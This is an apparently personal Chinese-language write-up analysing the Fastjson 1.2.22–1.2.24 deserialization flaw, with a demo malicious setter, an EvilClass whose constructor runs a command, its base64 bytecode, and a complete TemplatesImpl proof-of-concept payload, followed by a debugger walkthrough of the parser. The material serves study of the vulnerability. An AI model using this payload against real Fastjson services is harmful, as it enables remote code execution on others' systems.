# FastJson反序列化漏洞分析

## 序列化和反序列化

关于如何使用fastjson进行序列化和反序列化，现在继续看看，序列化时，使用方法是`toJSONString`，但是正常情况来说存在一个属性值：`SerializerFeature.WriteClassName`，但是如果不加这个属性值呢？


可以比较明显的看出，原本的标识`{""@type"}`也没有了，`@type`可以指定反序列化的类，并且调用其`getter/setter/is`方法。

那反序列化也是有两种方法`parseObject`和`parse`

`parse`进行反序列化，因此json字符串中有`@type`因此会自动执行指定类的set方法，并且会转换为`@type`指定类的类型

`parseObject`进行反序列话时会自动执行`@type`指定类的get和set方法，并且转换为`JSONObject`类


可以看到都是反序列化成功的但是只有`parseObject`方法反序列化时同时调用get和set方法。

还有就是不加`@type`有什么不同？



上面两种因为没有加`@type`去指定`testjson`属于那个对象，而反序列化失败，最后一个，添加了`User.class`，确定要反序列化的对象，这样就能正常反序列化了。

> 以下：@type=`autoType`

## 反序列化漏洞

代码如下：

```java
//Student.java
import com.alibaba.fastjson.JSON;

import java.io.IOException;
import java.util.jar.JarEntry;

public class Student {
    private String name;
    private int age;
    private String sex;

    public Student() {
        System.out.println("构造函数");
    }

    public String getName() {
        System.out.println("getName");
        return name;
    }

    public void setName(String name) {
        System.out.println("setName");
        this.name = name;
    }

    public int getAge() {
        System.out.println("getAge");
        return age;
    }

    public void setAge(int age) {
        System.out.println("setAge");
        this.age = age;
    }
    public void setSex(String sex) throws IOException {
        System.out.println("setSex");
        Runtime.getRuntime().exec("calc.exe");
    }
}
```

```java
//Unser.java
import com.alibaba.fastjson.JSON;

public class Unser {
    public static void main(String[] args){
        String jsonstring ="{\"@type\":\"com.testjson.demo.json.Student\":\"age\":80,\"name\":\"777\",\"sex\":\"man\"}";
        //System.out.println(JSON.parse(jsonstring));
        System.out.println(JSON.parseObject(jsonstring));
    }
}
```

结果如下，在反序列化时，调用了`setSex()`方法，遂可以执行命令。



## Fastjson反序列化漏洞流程分析

两条反序列化利用链分析，影响范围：`fastjson-1.2.22~fastjson-1.2.24`

Fastjson反序列化时，利用JSON字符串中的`aututype`字段来表明指定反序列化的目标恶意类。同时在反序列化时，会自动调用恶意对象的构造方法，`getter/setter`

### Templateslmpl利用链

恶意类，构造函数执行命令，还有两个transform方法后面分析详细说

```java
//EvilCalss.java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class EvilClass extends AbstractTranslet {
    public EvilClass() throws IOException {
        Runtime.getRuntime().exec("calc.exe");
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException{

    }
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException{

    }

    public static void main(String[] args) throws Exception{
        EvilClass evilClass = new EvilClass();
    }

}

```

使用`javac`将java文件编译成字节码文件`.class`，然后将字节码进行base64加密

```java
package test;

import java.io.ByteArrayOutputStream;
import java.io.FileInputStream;
import java.util.Base64;
import java.util.Base64.Encoder;

public class HelloWorld {
    public static void main(String args[]) {
        byte[] buffer = null;
        String filepath = ".\\src\\main\\java\\test\\EvilClass.class";
        try {
            FileInputStream fis = new FileInputStream(filepath);
            ByteArrayOutputStream bos = new ByteArrayOutputStream();
            byte[] b = new byte[1024];
            int n;
            while((n = fis.read(b))!=-1) {
                bos.write(b,0,n);
            }
            fis.close();
            bos.close();
            buffer = bos.toByteArray();
        }catch(Exception e) {
            e.printStackTrace();
        }
        Encoder encoder = Base64.getEncoder();
        String value = encoder.encodeToString(buffer);
        System.out.println(value);
    }
}
```

得到

```bash
yv66vgAAADQAJgoABwAXCgAYABkIABoKABgAGwcAHAoABQAXBwAdAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEACkV4Y2VwdGlvbnMHAB4BAAl0cmFuc2Zvcm0BAHIoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007W0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYHAB8BAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAEbWFpbgEAFihbTGphdmEvbGFuZy9TdHJpbmc7KVYHACABAApTb3VyY2VGaWxlAQAORXZpbENsYXNzLmphdmEMAAgACQcAIQwAIgAjAQAIY2FsYy5leGUMACQAJQEACUV2aWxDbGFzcwEAQGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ydW50aW1lL0Fic3RyYWN0VHJhbnNsZXQBABNqYXZhL2lvL0lPRXhjZXB0aW9uAQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQATamF2YS9sYW5nL0V4Y2VwdGlvbgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsAIQAFAAcAAAAAAAQAAQAIAAkAAgAKAAAALgACAAEAAAAOKrcAAbgAAhIDtgAEV7EAAAABAAsAAAAOAAMAAAAKAAQACwANAAwADAAAAAQAAQANAAEADgAPAAIACgAAABkAAAADAAAAAbEAAAABAAsAAAAGAAEAAAARAAwAAAAEAAEAEAABAA4AEQACAAoAAAAZAAAABAAAAAGxAAAAAQALAAAABgABAAAAFAAMAAAABAABABAACQASABMAAgAKAAAAJQACAAIAAAAJuwAFWbcABkyxAAAAAQALAAAACgACAAAAFwAIABgADAAAAAQAAQAUAAEAFQAAAAIAFg
```

POC如下：

```java
package test;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;

public class POC1 {
    public static void main(String[] args) {
        String payload = "{\"@type\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\", \"_bytecodes\":[\"yv66vgAAADQAJgoABwAXCgAYABkIABoKABgAGwcAHAoABQAXBwAdAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEACkV4Y2VwdGlvbnMHAB4BAAl0cmFuc2Zvcm0BAHIoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007W0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYHAB8BAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAEbWFpbgEAFihbTGphdmEvbGFuZy9TdHJpbmc7KVYHACABAApTb3VyY2VGaWxlAQAORXZpbENsYXNzLmphdmEMAAgACQcAIQwAIgAjAQAIY2FsYy5leGUMACQAJQEACUV2aWxDbGFzcwEAQGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ydW50aW1lL0Fic3RyYWN0VHJhbnNsZXQBABNqYXZhL2lvL0lPRXhjZXB0aW9uAQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQATamF2YS9sYW5nL0V4Y2VwdGlvbgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsAIQAFAAcAAAAAAAQAAQAIAAkAAgAKAAAALgACAAEAAAAOKrcAAbgAAhIDtgAEV7EAAAABAAsAAAAOAAMAAAAKAAQACwANAAwADAAAAAQAAQANAAEADgAPAAIACgAAABkAAAADAAAAAbEAAAABAAsAAAAGAAEAAAARAAwAAAAEAAEAEAABAA4AEQACAAoAAAAZAAAABAAAAAGxAAAAAQALAAAABgABAAAAFAAMAAAABAABABAACQASABMAAgAKAAAAJQACAAIAAAAJuwAFWbcABkyxAAAAAQALAAAACgACAAAAFwAIABgADAAAAAQAAQAUAAEAFQAAAAIAFg\"], '_name':'c.c', '_tfactory':{ },\"_outputProperties\":{}, \"_name\":\"a\", \"_version\":\"1.0\", \"allowedProtocols\":\"all\"}";
        JSON.parseObject(payload, Feature.SupportNonPublicField);
    }
}
```

`Fastjson`通过`_bytecodes`字段传入恶意类，调用`_outputProperties`属性的`getter`方法时，实例化传入的恶意类，调用其构造方法，造成任意命令执行。

关于POC中payload的解释



`@type`主要指向利用的类，这里是需要用到这个类中的`_bytecodes`来加载恶意类的字节码

`_bytecodes`用来加载恶意类

调用`outputProperties`属性的getter方法时，实例化传入的恶意类，调用其构造方法，造成任意命令执行

同时这也就是需要使用`Feature.SupportNonPublicField`属性是因为在反序列化时要调用private属性，如下图



POC利用截图



利用成功，就这条链子来进行debug和分析

从POC中的`parseObject(payload, .....)`跟进，到`com.alibaba.fastjson.JSON`


到这里发现会最终是调用了`parse`，继续跟进在本文件中



最终还是这样调用parse，只不过是传入的参数类型有点变化，继续跟进，会发现实例化了一个`DefaultJSONParser`对象


跟进对象创建的过程



`this`再转，并且传入了`JSONScanner`的一个实例作为参数，继续走跟进


进入判断，对JSON传入的字符串进行解析，第一个字符是不是`{`，如果是，设置token值为12

到这里这一条`DefaultJSONParser`实例化对象的创建过程可以先出去了，再继续看



此时的token值已经被设置为12了，说明流程正常走了下来。

然后继续跟进`parser()`



由于前面已经设置token为12了，所以可以直接跳至`case 12`分支。


调用`parserObject`方法，进入查看，取出key（键名）: `@type`


然后根据键名，`scanSymbol`解析出键值，`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`



loadClass将键值（恶意类）存入clazz中，进入loadClass中查看


返回了已经添加`className`的值到`clazz`（添加恶意类）

走到这里，将`clazz`传入到` config.getDeserializer`中



跟进`this.config.getDeserializer`，进入到`com.alibaba.fastjson.parser.ParserConfig`中，进行


后面都是在走一个循环，判断JSON字符串中是否还有key，也就是key是否为空，不为空就继续取出键值，为空就跳出反序列化。判断是否结束的标志是`}`


其中在解析处理 `@type `字段的⽬标类后，通过 for 循环处理JSON⽂本中剩下的键值对，通过 scanSymbol 函数获取下个键名

###  JdbcRowSetImpl利⽤链

头疼，暂时不想看了.....下次再补充吧
